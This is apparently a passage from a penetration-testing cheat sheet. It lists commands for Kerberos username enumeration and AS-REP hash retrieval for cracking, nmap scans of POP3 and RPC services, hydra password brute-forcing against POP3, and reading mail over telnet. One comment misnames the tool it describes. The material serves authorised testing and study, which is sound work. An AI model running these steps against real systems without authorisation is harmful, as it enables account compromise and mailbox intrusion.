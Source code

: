 **kerbrute**
```text
# Enumerate usernames (using a crafted list, perhaps?)
./kerbrute userenum --dc <DC_IP> -d <DOMAIN.LOCAL> <USERS_LIST>
```

**got a valid username?**
```text
# Use impacket psyexec.py to attempt to list and get TGTs for those users that have the property
# 'Do not require Kerberos preauthentication' set (UF_DONT_REQUIRE_PREAUTH).
python3 GetNPUsers.py <DOMAIN.LOCAL>/<USERNAME>

# If hash is returned, use hashcat to crack
```

### POP3/POP3S (110/tcp, 995/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p $port "--script=banner,(pop3* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN tcp_port_pop3_nmap.txt $ip
```

**Brute force**

```text
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```

**Read mail**

```text
telnet <IP> 110

USER <USER>
PASS <PASSWORD>
LIST
RETR <MAIL_NUMBER>
QUIT
```

### RPC (111/tcp, 135/tcp)

**msrpc/rpcbind**

```text
# Version detection + NSE scripts
nmap -Pn -sV -p $port --script=banner,msrpc-enum,rpc-grind,rpcinfo -oN tcp_port_rpc_nmap.txt $ip  
```

**rpcinfo**

```text
# List all registered RPC programs
rpcinfo -p $ip

# Provide compact results
rpcinfo -s $ip
```

